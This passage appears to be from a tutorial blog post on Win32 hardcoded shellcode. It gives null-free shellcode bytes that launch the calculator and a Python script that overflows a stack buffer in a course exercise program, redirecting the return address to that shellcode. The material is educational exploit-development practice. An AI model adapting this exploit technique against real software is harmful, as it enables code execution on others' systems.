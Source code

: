 ![Untitled](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%2010.png)

```bash
31 DB 53 68 2E 65 78 65 68 63 61 6C 63 89 E0 43 53 50 BB 20 E1 74 76 FF D3 31 C0 50 B8 B0 58 71 76 FF E0
```

No NULL bytes! Now we can inject this with nothing to worry about.

## Buffer overflow exploitation

Now the really cool stuff happens. We will exploit a basic buffer overflow and overwrite the return address with a pointer to our shellcode.

The vulnerable code that I will be using is a slightly modified exercise I have got from [this wonderful free course](http://ricardonarvaja.info/WEB/EXPLOITING%20Y%20REVERSING%20USANDO%20HERRAMIENTAS%20FREE/) (Please check it out, I guarantee you will not be disappointed) :

![Untitled](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%2011.png)

Since the goal of this post is to show how we can execute our shellcode I will not be covering how I am overwriting the return address, but any quick search on that will find you what you want.

And here is the exploit I will be using : 

```python
import sys
from subprocess import Popen, PIPE
import struct
import codecs

decode_hex = codecs.getdecoder("hex_codec")

shellcode = '31DB53682E6578656863616C6389E0435350BB20E17476FFD331C050B8B0587176FFE0'

# We want it to be in format \xe0\xff\x76...
winexec_calc_shellcode = decode_hex(shellcode)[0]

# Payload = shellcode + padding + address of buf[1024]
payload = winexec_calc_shellcode + b"A" * (0x404 - len(winexec_calc_shellcode)) + struct.pack("<L",0x4025b4)

# Open the vulnerable file
p1 = Popen(r"C:\Users\Exploiting\Desktop\Curso Exploiting\STACKS-20230323T211310Z-001\ABOS\ABO1_VS_2017.exe", stdin=PIPE)

# Send the payload
p1.communicate(payload)
```

As you can see, the exploit will run the vulnerable executable and execute the calculator through a buffer overflow.

What is happening in here is that we have overflown the buffer by filling it with our shellcode and some padding until we have found the return address, this return address is overwritten with the address of the buffer, so that `eip` points to our shellcode when returning from the function.
